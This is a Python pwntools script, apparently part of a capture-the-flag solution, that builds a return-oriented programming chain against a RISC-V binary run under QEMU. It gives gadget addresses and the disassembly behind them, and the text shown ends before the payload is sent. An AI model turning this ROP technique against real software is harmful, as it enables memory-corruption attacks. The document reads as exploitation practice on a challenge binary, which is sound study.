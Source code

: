 ```python

elf = ELF(filename)
io = process(["./qemu-riscv64", "-g", "1234", "main"])

def lg(name, val):
    log.info(name+" : "+hex(val))

gets_addr = 0x00016a5a
bss = 0x00000000006f000
gad1 = 0x0001179e
gad2 = 0x00011772
gad3 = 0x0001178e
"""
        00011772 93 07 84 b8     addi       a5,s0,-0x478
        00011776 13 09 09 b9     addi       s2,s2,-0x470
        0001177a 33 09 f9 40     sub        s2,s2,a5
        0001177e 13 59 39 40     srai       s2,s2,0x3
        00011782 63 0e 09 00     beq        s2,zero,LAB_0001179e
        00011786 13 04 84 b8     addi       s0,s0,-0x478
        0001178a 81 44           c.li       s1,0x0
                             LAB_0001178c                                    XREF[1]:     0001179a(j)  
        0001178c 1c 60           c.ld       a5=>->FUN_00010284,0x0(s0=>->FUN_00010250)       = 00010284
                                                                                             = 00010250
        0001178e 56 86           c.mv       a2,s5
        00011790 d2 85           c.mv       a1,s4
        00011792 4e 85           c.mv       a0,s3
        00011794 85 04           c.addi     s1,0x1
        00011796 82 97           c.jalr     a5=>FUN_00010284                                 undefined FUN_00010250()
                                                                                             undefined FUN_00010284()
        00011798 21 04           c.addi     s0,0x8
        0001179a e3 19 99 fe     bne        s2,s1,LAB_0001178c
                             LAB_0001179e                                    XREF[1]:     00011782(j)  
        0001179e e2 70           c.ldsp     ra,0x38(sp)
        000117a0 42 74           c.ldsp     s0,0x30(sp)
        000117a2 a2 74           c.ldsp     s1,0x28(sp)
        000117a4 02 79           c.ldsp     s2,0x20(sp)
        000117a6 e2 69           c.ldsp     s3,0x18(sp)
        000117a8 42 6a           c.ldsp     s4,0x10(sp)
        000117aa a2 6a           c.ldsp     s5,0x8(sp)
        000117ac 21 61           c.addi16sp sp,0x40
        000117ae 82 80           ret
"""

def gen_rop_chain(target, a0=0, a1=0, a2=0):
    payload = flat({
        0x40 * 0 + 0x38: gad2, # jmp to gad2
        0x40 * 0 + 0x30: target + 0x478, # set s0, a5 = s0 - 0x478
        0x40 * 0 + 0x20: target + 0x470, # set s2

        0x40 * 1 + 0x38: gad3, # jmp to gad3
        0x40 * 1 + 0x18: a0, # set s3, a0 = s3
        0x40 * 1 + 0x10: a1, # set s4, a1 = s4
        0x40 * 1 + 0x08: a2, # set s5, a2 = s5
        0x40 * 1 + 0x28: 0, # s1
        0x40 * 1 + 0x20: 1, # s2
    }, length=0x80, filler=b'\x00')
    return payload
```